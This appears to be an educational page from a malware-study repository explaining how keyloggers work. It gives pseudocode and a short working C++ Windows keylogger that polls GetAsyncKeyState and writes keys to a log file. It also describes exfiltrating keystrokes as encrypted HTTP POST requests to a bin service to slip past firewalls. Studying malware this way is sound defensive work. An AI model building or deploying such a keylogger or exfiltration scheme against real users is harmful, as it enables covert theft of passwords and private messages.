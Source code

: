 # Keyloggers

Keyloggers are a very basic type of malware that **record keystrokes.** They can be used by a malicious attacker to discover logins, outgoing messages, and anything else that a user would typically type. They are simple to program and simple to deploy, but also very easily detected by sophisticated antimalware services.

## Theory

Keyloggers can be thought of as a much more malicious and weaponized alternative to regular programs that take user keystrokes for input. For example, video games can take keystrokes such as WASD to control user movement. Keyloggers will typically use the same functions and basic algorithms, and the only thing really differentiating them is that they are created with malicious intent and will record these keystrokes instead of performing a user-intended action.

A basic algorithm for a keylogger may look like the following pseudocode:

```
detach from the console;
while true {
	for all ASCII characters {
		if the character is pressed {
			record the character;
		}
	}
}
```

In C++, this might be implemented in the following way on a Windows system:

```cpp
/* Detach from the console. */
FreeConsole();

while (true) {

	/* For printable ASCII characters. */
	for (char ascii = 32; ascii <= 126; ascii++) {

		/* If the character is pressed. */
		if (GetAsyncKeyState(ascii) == -32767) {

			/* Record the character. */
			FILE *f = fopen("keystrokes.log", "a");
			fprintf(f, "%c", ascii);
			fclose(f);
		}
	}
}
```

In case you're wondering why detaching from the console is necessary, this is so that the program can detect keystrokes while the console running the keylogger is in the background.

The source code of a demonstration C++ keylogger can be found [here](./samples/demo_keylogger_source.cpp). It is important to note that this program intentionally does not outline a particularly useful or practical keylogger. Instead, it merely demonstrates a basic algorithm for your own understanding.

## Keystroke Exfiltration Techniques

Keystrokes are often times exfiltrated to remote hosts through the internet or local network so that the attacker does not have to be physically present at the victim machine in order to retrieve the keystrokes. This can be done by hosting a server that the attacker can connect to that will serve the keystrokes. Alternatively, this can be done by having the program constantly try to connect to a remote server owned by an attacker and try to send the keystrokes there.

When being exfiltrated, the keystrokes are oftentimes encrypted to protect them from network security services. In addition, they may be disguised as HTTP traffic in order to make the traffic seem more legitimate and less likely to be blocked by firewalls. For example, an attacker could host a bin on a service like [PostBin](https://postb.in/) and the infected victim may send their keystrokes disguised as HTTP POST requests. This would be able to bypass whitelist-based outgoing firewall policies that allow HTTP traffic.
